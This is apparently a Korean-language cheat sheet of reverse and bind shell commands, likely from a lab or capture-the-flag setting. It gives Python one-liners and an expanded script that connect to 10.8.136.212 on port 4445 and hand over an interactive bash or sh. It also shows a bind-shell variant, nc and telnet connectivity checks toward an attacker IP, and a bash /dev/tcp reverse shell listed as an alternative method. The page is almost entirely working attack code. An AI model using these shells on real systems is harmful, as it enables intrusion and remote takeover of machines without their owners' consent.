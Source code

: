 ```bash
# python interpreter env

# bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.136.212",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

# sh
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.136.212",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")


# bash 환경에서 실행
python3 -c 'import socket,subprocess,os;s=socket.socket();s.bind(("10.8.136.212",4445));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

````bash
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.8.136.212", 4445))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/bash", "-i"])

```

```bash
# 타겟에서 공격자로 핑 테스트
ping -c 4 공격자IP
# 포트 연결 테스트
nc -zv 공격자IP 1234
# 또는 텔넷으로 테스트
telnet 공격자IP 1234
````

## 4️⃣ 대체 리버스 쉘 방법

### 📎 Bash 리버스 쉘

```bash
bash -i >& /dev/tcp/공격자IP/1234 0>&1
```
